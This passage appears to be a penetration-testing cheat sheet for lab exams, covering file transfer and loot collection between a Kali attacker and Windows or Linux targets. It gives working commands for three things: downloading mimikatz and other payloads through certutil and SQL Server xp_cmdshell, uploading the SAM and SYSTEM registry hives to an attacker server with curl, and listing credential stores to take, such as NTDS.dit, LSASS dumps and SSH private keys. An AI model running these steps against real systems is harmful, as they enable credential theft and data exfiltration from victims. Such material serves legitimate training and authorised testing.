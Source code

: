     ##Certutil
    certutil -urlcache -f http://<Kali-IP>/file.exe file.exe

    ##SQL
    EXEC xp_cmdshell 'powershell -exec bypass -c "(New-Object Net.WebClient).DownloadFile(''http://<kali>:1234/mimikatz.exe'', ''C:\Windows\Tasks\mimikatz.exe'')"'
    
    ###From Windows (netcat) to Kali###
    ##UploadServer
    --Kali terminal
    mkdir -p /home/kali/uploads
    cd /home/kali/uploads
    pipx install uploadserver
    pipx run uploadserver --directory /home/kali/uploads 8008

    --target terminal
    C:\Users\dave>curl -X POST http://<kali>:8008/upload -F "files=@C:\Users\<user>\sam"
    C:\Users\dave>curl -X POST http://<kali>:8008/upload -F "files=@C:\Users\<user>\system"
    C:\Users\dave>curl -X POST http://<kali>:8008/upload -F "files=@C:\Users\<user>\winPEAS-results.txt"
    ```
  - **C:\Windows\System32\config\SAM**
  - **C:\Windows\System32\config\SYSTEM**
  - C:\Windows\System32\config\SECURITY
  - C:\Windows\NTDS\ntds.dit
  - **Mimikatz dump files `sekurlsa::logonpasswords` `lsadump::sam`**
  - LSASS memory dump `lsass.dmp`
  - plaintext creds: C:\Windows\Panther\Unattend.xml, C:\Windows\sysprep\sysprep.inf
  - task scheduler XML files: C:\Windows\System32\Tasks\
  - **User data: C:\Users\<user>\Desktop, C:\Users\<user>\Documents**
  - **Flag: local.txt, proof.txt**

- **Linux**
  - **Transfer back/forth to Linux target**
    ```
    ###To target Linux###
    scp <linpeas.sh> <user>@<target>:/tmp/
    scp -P 2222 <linpeas.sh> <user>@<target>:/tmp/
   
    ###From Linux to Kali###
    scp <user>@<target>:/tmp/output.txt /home/kali/share/results/
    scp -P 2222 <user>@<target>:/tmp/output.txt /home/kali/share/results/
    ```
  - **SSH keys**
    - ~/.ssh/id_rsa → private key
    - ~/.ssh/id_dsa, ~/.ssh/id_ecdsa, ~/.ssh/id_ed25519
    - ~/.ssh/authorized_keys  
  - **Password and shadow files**
    - /etc/passwd → user accounts
    - /etc/shadow → hashed passwords (requires root)
  - **User Data**
    - /home/<user>/Desktop/*
    - /home/<user>/Documents/*
    - local.txt, proof.txt
  - **Sensitive files for privilege escalation**
    - SUID/SGID binaries you plan to analyze `find / -perm -4000 -type f 2>/dev/null`
    - Scripts with plaintext passwords in /usr/local/bin, /opt/, or /home/*
  